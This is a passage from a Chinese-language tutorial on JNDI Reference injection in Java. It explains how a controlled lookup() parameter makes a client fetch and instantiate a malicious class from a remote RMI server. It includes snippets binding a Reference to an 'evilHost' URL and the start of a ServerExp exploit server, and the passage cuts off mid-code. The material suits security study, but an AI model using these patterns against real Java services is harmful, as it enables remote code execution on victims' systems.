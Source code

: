 这里可以看到调用完`Reference`后又调用了`ReferenceWrapper`将前面的`Reference`对象给传进去，这是为什么呢？  
其实查看`Reference`就可以知道原因，查看到`Reference`,并没有实现`Remote`接口也没有继承 `UnicastRemoteObject`类，前面讲`RMI`的时候说过，将类注册到`Registry`需要实现`Remote`和继承`UnicastRemoteObject`类。这里并没有看到相关的代码，所以这里还需要调用`ReferenceWrapper`将他给封装一下。

## [JNDI References 注入](#toc_jndi-references)

为了在命名服务或目录服务中绑定`Java`对象，可以使用`Java`序列化来传输对象，但有时候不太合适，比如`Java`对象较大的情况。因此JNDI定义了命名引用(`Naming References`)，后面直接简称引用(`References`)。这样对象就可以通过绑定一个可以被命名管理器(`Naming Manager`)解码并解析为原始对象的引用，间接地存储在命名或目录服务中。  
引用由`Reference`类来表示，它由地址(`RefAddress`)的有序列表和所引用对象的信息组成。而每个地址包含了如何构造对应的对象的信息，包括引用对象的`Java`类名，以及用于创建对象的`ObjectFactory`类的名称和位置。  
`Reference`可以使用`ObjectFactory`来构造对象。当使用`lookup()`方法查找对象时，`Reference`将使用提供的`ObjectFactory`类的加载地址来加载`ObjectFactory`类，`ObjectFactory`类将构造出需要的对象。

所谓的 `JNDI` 注入就是控制 `lookup` 函数的参数，这样来使客户端访问恶意的 `RMI` 或者 `LDAP` 服务来加载恶意的对象，从而执行代码，完成利用  
在 `JNDI` 服务中，通过绑定一个外部远程对象让客户端请求，从而使客户端恶意代码执行的方式就是利用 `Reference` 类实现的。`Reference` 类表示对存在于命名/目录系统以外的对象的引用。  
具体则是指如果远程获取 `RMI` 服务器上的对象为 `Reference` 类或者其子类时，则可以从其他服务器上加载 `class` 字节码文件来实例化  
`Reference` 类常用属性：

```plain
className 远程加载时所使用的类名
classFactory 加载的 class 中需要实例化类的名称
classFactoryLocation 提供 classes 数据的地址可以是 file/ftp/http 等协议
```

比如：

```plain
Reference reference = new Reference("Exploit","Exploit","http://evilHost/" );           
registry.bind("Exploit", new ReferenceWrapper(reference));
```

此时，假设使用 `rmi` 协议，客户端通过 `lookup` 函数请求上面 `bind` 设置的 `Exploit`

```plain
Context ctx = new InitialContext();
ctx.lookup("rmi://evilHost/Exploit");
```

因为绑定的是 `Reference` 对象，客户端在本地 `CLASSPATH` 查找 `Exploit` 类，如果没有则根据设定的 `Reference` 属性，到`URL`： [http://evilHost/Exploit.class](http://evilhost/Exploit.class) 获取构造对象实例，构造方法中的恶意代码就会被执行

## [JNDI\_RMI](#toc_jndi_rmi)

本节主要分析 JNDI 在使用 RMI 协议时面临的攻击面。

### [低版本JDK运行](#toc_jdk)

服务端代码：

```plain
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class ServerExp {

    public static void main(String args[]) {

        try {
            Registry registry = LocateRegistry.createRegistry(1099);

            String factoryUrl = "http://localhost:1098/";
            Reference reference = new Reference("EvilClass","EvilClass", factoryUrl);
            ReferenceWrapper wrapper = new ReferenceWrapper(reference);
            registry.bind("Foo", wrapper);

```